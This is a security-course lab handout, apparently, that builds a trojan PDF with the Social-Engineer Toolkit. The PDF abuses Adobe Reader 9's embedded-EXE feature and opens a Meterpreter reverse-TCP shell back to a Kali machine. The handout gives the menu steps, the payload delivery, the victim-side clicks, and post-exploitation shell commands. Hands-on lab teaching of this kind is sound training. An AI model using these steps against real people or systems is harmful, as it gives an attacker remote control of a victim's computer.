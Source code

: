 This attack presumes that you still have the handler running listening for a connection from a `windows/meterpreter/reverse_tcp` payload, which was launched 
during the fake adobeupdate.exe section.

Download and install a vulnerable version of Adobe Reader to the Windows 10 vm. v9.0 will do -- you can obtain it from [here](ftp://ftp.adobe.com/pub/adobe/reader/win/9.x/9.0/enu/AdbeRdr90_en_US.exe)

1. Launch `setoolkit` if not already launched. From the main menu:
    * `1) Social-Engineering Attacks`
    * `3) Infectious Media Generator`
    * `1) File-Format Exploits`
    * enter kali ip address
    * `13) Adobe PDF Embedded EXE Social Engineering`
    * `2. Use built-in BLANK PDF for attack` (unless you're feelinga adventurous, in which case you can create your own)
    * `2) Windows Meterpreter Reverse_TCP`
    * Accept default for payload listener LHOST
    * Accept default for port to connect back on
    * Let `set` create a listener right now (`yes`)
    
2.  SET will have put the created payload in `/root/.set/template.pdf`. Your goal now is to get this pdf onto the victim machine. 
    If you still have the python server running in the `/tmp` dir from the fake adobeupdate part of this lab, then you can just move this payload there and download it
    to the victim machine as before. From a different Kali terminal than the `set` one:
    
        mv /root/.set/template.pdf /tmp
        
    You can rename it to whatever you like.
    
3.  On the victim machine, open the downloaded file with Adobe Reader

    * Right-click the downloaded file > `Open with...` > 'Adobe Reader 9.0`
    
4.  Adobe Reader will open a dialog asking you whether you want to save a file that the document is attempting to extract. Do so, <span class='label label-info'>saving the file to a locaiton such as the desktop</span>.
5.  Adobe Reader will then ask if you want to run a script embedded in the pdf document. Let it do so.
6.  You should now have a meterpreter session opened on kali. Interact with it, and continue pwn-age.
        

## Deliverable         

Take a screenshot showing the output of running the following commands from your meterpreter session:
    
    pgrep pdf
    getpid
    shell
    echo "your first and last name"
    date /t

The first command should show the process id related to your trojan pdf, and the second verifies that you are tied to that process. 
This establishes that you were successful in this exploit.
